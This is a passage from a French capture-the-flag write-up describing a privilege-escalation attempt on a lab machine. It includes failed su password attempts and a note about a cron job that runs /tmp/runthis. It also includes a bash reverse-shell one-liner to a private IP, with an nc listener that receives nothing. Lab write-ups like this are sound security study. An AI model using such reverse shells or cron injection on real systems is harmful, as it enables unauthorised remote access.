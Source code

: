 Malheureusement, les mots de passe trouvés jusqu'à présent ne permettent pas d'élever nos privilèges.

```console
bash-4.1$ su - eezeepz
su - eezeepz
Password: 4ll3maal12#
su: incorrect password

bash-4.1$ su - eezeepz
su - eezeepz
Password: keKkeKKeKKeKkEkkEk
su: incorrect password
```

## Élévation de privilèges (admin)

On trouve dans le répertoire d'eezeepz un petit mot signé Jerry (admin).

```console
bash-4.1$ cat /home/eezeepznotes.txt
cat /home/eezeepznotes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```

Dommage, il ne semble pas possible cette fois-ci de mettre en place un _reverse shell_.

```console
bash-4.1$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-4.1$ echo "bash -i >& /dev/tcp/192.168.56.101/23456 0>&1" > /tmp/runthis
echo "bash -i >& /dev/tcp/192.168.56.101/23456 0>&1" > /tmp/runthis
```

```console
root@blinils:~# nc -lvp 23456
listening on [any] 23456 ...

--waiting but nothing--
```
